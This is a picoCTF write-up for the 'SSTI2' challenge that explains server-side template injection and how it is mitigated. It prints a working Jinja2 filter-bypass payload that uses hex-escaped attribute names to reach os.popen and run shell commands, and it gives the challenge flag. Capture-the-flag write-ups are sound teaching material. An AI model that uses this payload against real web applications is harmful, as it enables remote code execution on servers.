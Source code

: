 # SSTI2

## Challenge
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)

Additional details will be available after launching your challenge instance.


### Solve
**Flag:** `picoCTF{sst1_f1lt3r_byp4ss_63b833cd}`\
**SSTI** stands for *Server Side Template Injection*.\
It is a vulnerability where untrusted user input is fed into a server template engine, allowing the input to be evaluated as template code. In mild cases it leaks data; in severe cases it lets an attacker execute server-side code.\
This level explores the same.
- After launching the challenge instance, I was provided with a link.
- A website is given which will announce whatever I type into it!?
- And since the challenge name is SSTI2, it hints at a typical injecting problem.
- Used this image to determine the templating engine the site was using.
  <img width="867" height="529" alt="image" src="https://github.com/user-attachments/assets/c97c3fac-1765-4bf0-aed3-1fea90df6848" />

    - ${7*7} didn’t work
    - {{7*7}} works
    - {{7*’7'}} works
- Therefore, the engine used is either `Twig` or `Jinja2`
> Custom payload

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
```
<img width="1500" height="367" alt="image" src="https://github.com/user-attachments/assets/3363c101-7738-4e69-83e6-6e10c0878300" />

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```
<img width="1798" height="202" alt="image" src="https://github.com/user-attachments/assets/cfb867c0-31c1-49bb-923d-a0315ea376ab" />


### New Learnings
**Templating Engines**
- They convert templates + data into HTML; different engines (Jinja, Twig, ERB) have different syntax and object models — fingerprinting the engine is the first step.

**Injections**
- SSTI happens when untrusted input is injected into a template and evaluated. What looks like text can become code executed on the server.

**Payloads**
- A payload is the little piece of input you send into a program or web app that’s designed to do something — test, probe, or exploit.

**Mitigation**
- Never render raw user input. Escape or sanitize inputs, use strict template sandboxes/whitelists, remove/limit dangerous globals, apply least privilege on server processes, and keep template libraries updated.


### Resources
- [Article by tobias are](https://medium.com/@vgqxjb/ssti2-picoctf-4caa7ac497c5)
- [onsecurity.io blog](https://onsecurity.io/article/server-side-template-injection-with-jinja2/)
